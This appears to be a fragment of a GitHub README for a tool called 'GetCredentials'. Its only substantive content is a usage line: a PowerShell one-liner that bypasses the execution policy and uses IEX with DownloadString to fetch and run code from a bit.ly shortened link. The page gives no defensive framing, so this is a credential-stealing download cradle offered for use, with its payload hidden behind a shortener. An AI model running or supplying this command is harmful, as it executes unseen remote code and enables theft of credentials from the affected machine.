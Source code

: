 # GetCredentials
Usage: powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘https://bit.ly/2El9Fyw’)"

